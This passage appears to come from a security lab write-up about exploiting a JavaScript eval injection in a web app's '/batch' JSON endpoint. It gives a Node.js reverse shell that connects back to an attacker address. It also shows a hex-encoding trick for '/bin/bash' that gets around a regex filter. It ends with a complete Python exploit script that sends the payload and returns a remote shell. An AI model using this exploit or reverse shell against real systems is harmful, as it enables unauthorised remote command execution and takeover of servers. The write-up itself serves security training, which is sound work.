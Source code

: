 ## Solving The Truncation Caveat
We can start by updating our script, with the following JavaScript reverse shell:

```JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(5555, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

We will be using this reverse shell, however, it will be in our own python script, and executing the reverse shell.
However, we run into the following error:

```JSON
{"statusCode":500,"error":"Internal Server Error","message":"An internal server error occurred"}
```

To review our error, we can simply add a debugging statement, right before our eval function so we know what's getting executed on the server:

![](../../Screenshots/t3-ss13.png)

Reviewing the error:

![](../../Screenshots/t3-ss14.png)

We see that the our complete injection is being truncated, due to the "/bin/bash" slashes.
We can solve this by using "\\\\x2fbin\\\\x2fbash" instead of "/bin/bash", as hex encoded characters are allowed in JavaScript, and thus bypass the regex parsing restrictions.

Our final script will look like as follows:

```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

## The Shell
Executing our python script with the right arguments:

![](../../Screenshots/t3-ss15.png)

We get a shell back:

![](../../Screenshots/t3-ss16.png)